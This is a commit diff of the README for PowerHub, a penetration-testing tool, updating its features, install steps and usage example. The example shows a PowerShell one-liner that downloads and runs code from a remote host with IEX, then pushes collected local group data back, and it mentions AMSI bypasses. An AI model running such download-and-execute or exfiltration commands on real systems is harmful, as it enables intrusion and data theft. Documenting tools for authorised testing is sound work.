

Update README, including demonstration of sharphound alias

diff --git a/README.md b/README.md
@@ -11,9 +11,11 @@ endpoint protection. Check out the
 * Cert pinning
 * String "obfuscation" by RC4 encryption
 * Choose your AMSI Bypass
+* Transparent aliases for in-memory execution of C# programs
 
 
 ![PowerHub Webapp](https://github.com/AdrianVollmer/PowerHub/blob/master/img/powerhub-webapp.png)
+![PowerHub Webapp](https://github.com/AdrianVollmer/PowerHub/blob/master/img/powerhub-sharphound.png)
 
 During an engagement where you have a test client available, one of the
 first things you want to do is run PowerSploit. So you need to download the
@@ -31,56 +33,40 @@ team.
 Here is a simple example (grab information about local groups with PowerView
 and transfer it back):
 
-```
-PS C:\Users\avollmer> $K=new-object net.webclient;IEX $K.downloadstring('http://192.168.11.2:8080/0?t=http&f=r&a=reflection');
+```powershell
+PS C:\Users\avollmer> $K=New-Object Net.WebClient;'a=reflection','t=http'|%{IEX $K.DownloadString('http://192.168.11.2:8080/0?'+$_)}
+True
   _____   _____  _  _  _ _______  ______ _     _ _     _ ______
  |_____] |     | |  |  | |______ |_____/ |_____| |     | |_____]
  |       |_____| |__|__| |______ |    \_ |     | |_____| |_____]
-                            written by Adrian Vollmer, 2018-2021
+1.11                        written by Adrian Vollmer, 2018-2022
 Run 'Help-PowerHub' for help
-PS C:\Users\avollmer> lhm powerview
-Name                                Type N  Loaded
-----                                ---- -  ------
-ps1/PowerSploit/Recon/PowerView.ps1 ps1  29   True
-PS C:\Users\avollmer> Get-LocalGroup | pth -Name groups.json
+PS C:\Users\avollmer> Get-HubModule PowerView
+
+
+Name   : /home/avollmer/.local/share/powerhub/modules/PowerSploit/Recon/PowerView.ps1
+Type   : ps1
+N      : 205
+Loaded : True
+Alias  :
+
+PS C:\Users\avollmer> Get-LocalGroup | PushTo-Hub -Name groups.json
 ```
 
 
 Installation
 ============
 
-PowerHub itself does not need to be installed. Just execute `powerhub.py`.
-However, there are a few dependencies. They are listed in the
-[requirements.txt](https://github.com/AdrianVollmer/PowerHub/blob/master/requirements.txt).
-Install them either via `pip3 install --user -r requirements.txt` or use a
-virtual environment.
+PowerHub can be installed like any other Python package. Just execute
+`python3 -m pip install powerhub`. If you like to work with virtual
+environments, I recommend [pipx](https://github.com/pypa/pipx/).
 
-If you do want to install PowerHub, you should do `pip3 install --user .`.
-
-Python2 is not supported.
+If you want to use the latest version on the dev branch, clone this
+repository and install with `python3 -m pip install -e .`.
 
 For building the payloads, you need the MinGW GCC and Mono C# compilers. On
 Debian-like systems, you can install them with `apt-get install mono-mcs
 gcc-mingw-w64-x86-64 gcc-mingw-w64-i686`.
-
-venv
-----
-
-`venv` can be installed on Debian-like systems by `apt install
-python3-venv`.
-
-Run `python3 -m venv env` to create a virtual environment, then use `source
-env/bin/activate` to activate it. Now run `pip3 install .`
-to install the depencendies inside the virtual environment.
-
-pipenv
-------
-
-Alternatively, you can use `pipenv`. `pipenv` can be installed on
-Debian-like systems by `apt install pipenv`.
-
-Run `pipenv install` once in the PowerHub directory, then `pipenv shell` to
-activate the virtual environment.
 
 
 Usage
@@ -93,7 +79,7 @@ generated password will be used for basic authentication. The switch
 callback host name is used by the stager to download the payload. If the
 callback port or path differ from the default, it can also be changed.
 
-Read `./powerhub.py --help` and the [Wiki](https://github.com/AdrianVollmer/PowerHub/wiki/Usage) for details.
+Read `powerhub --help` and the [Wiki](https://github.com/AdrianVollmer/PowerHub/wiki/Usage) for details.
 
 
 Credits
